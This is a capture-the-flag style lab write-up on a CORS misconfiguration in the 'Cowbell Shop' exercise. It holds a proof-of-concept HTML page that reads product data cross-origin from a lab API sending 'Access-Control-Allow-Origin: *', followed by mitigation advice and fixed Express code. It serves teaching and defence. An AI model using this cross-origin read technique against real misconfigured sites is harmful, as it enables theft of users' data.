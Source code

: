 # Cowbell Shop 9 - CORS

## Challenge

Cross Origin Requests \(CORS\) vs. Same-Origin-Policy \(SOP\).

## Answer

### Explain the security problem  

* CORS is a mechanism to bypass the Same Origin Policy  
* Websockets are not subordinated to CORS 
* CORS Attack Scenarios
  * Stealing Data
  * CSRF the easy way



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Open Cowbell Web Shop and Theia WEB IDE

Step 2\) Change `change_me.html ,` add the URL and open the URL `https://7bc7e2f3-df76-477a-ac25-72b285312f0e.idocker.vuln.land/change_me.html`

{% code title="" %}
```markup
<!DOCTYPE html>
<html lang="en">

<head>
	<meta charset="UTF-8">
	<title>Glocken Emil's Product API</title>
</head>

<body>
	<div id="root">
		<h1>Glocken Emil's Product API</h1>
	</div>
    Execute Script
	<script>
		const app = document.getElementById('root'); 
        const container = document.createElement('div'); 
        app.appendChild(container); 
        var request = new XMLHttpRequest(); 
        request.open('GET', 'https://6522250e-5430-4dd6-a964-d0cf675baf91.idocker.vuln.land/api/product', true); 
        request.onload = function () { var data = JSON.parse(this.response); 
            data = data.data.products; 
            if (request.status >= 200 && request.status < 400) 
            { 
                data.forEach(product => { const card = document.createElement('div'); 
                    const h3 = document.createElement('h3'); 
                    const p1 = document.createElement('p'); 
                    const p2 = document.createElement('p'); 
                    const p3 = document.createElement('p'); 
                    h3.textContent = product.name; 
                    p1.textContent = "Category: " + product.category.name; 
                    p2.textContent = "Price: " + product.price; 
                    p3.textContent = "Size: " + product.size; 
                    container.appendChild(card); 
                    card.appendChild(h3); 
                    card.appendChild(p1); 
                    card.appendChild(p2); 
                    card.appendChild(p3); 
                }); 
            } 
    }
    request.send(); 
	</script>
    End Script
</body>

</html>
```
{% endcode %}

![](../../.gitbook/assets/image%20%28370%29.png)

Step 3\) See in the DevTools that the HTTP Response header from `/api/product` has the following:

`Access-Control-Allow-Origin: *` 

![](../../.gitbook/assets/image%20%28372%29.png)



### Explain mitigation \(remedy\)

* The most secure is not to set any  `Access-Control-Allow-Origin`

  on the server at all

* Second set the value never to `*` , instead specify a for you trusted host
* =&gt; In this challenge remove or adjust the HTTP Response header 

  * `Access-Control-Allow-Origin`

  from the `/api/product` API 



## Solution

### Was a preflight request required? why yes or no?

No, there was no preflight \(`OPTIONS`\) request since it was a `GET`-Request  \(see `change_me.html`\) and a `GET`-Request qualifies as a "Simple Request". See [https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS\#simple\_requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests)

#### Did the server set a proper Access-Control-Allow-Origin response header?

No, the servers HTTP Response header was set to `Access-Control-Allow-Origin: *` 

=&gt; See mitigation above



## Lösung HL



```text
super cooles pdf. vielen dank

alles ok

hier noch meine notizen zur challenge

If you want to expose your API to the public but only for certain customers, you can set the headers properly just for them. Otherwise you should be careful and not set this header to allow everyone to read from your site.

Fixed Code in Backend app

Copied to clipboard
const cors = require('cors'); 
const app = express(); 
const corsOptions = { origin: 'http://example.com', optionsSuccessStatus: 200 } 
app.use(cors(corsOptions));
```

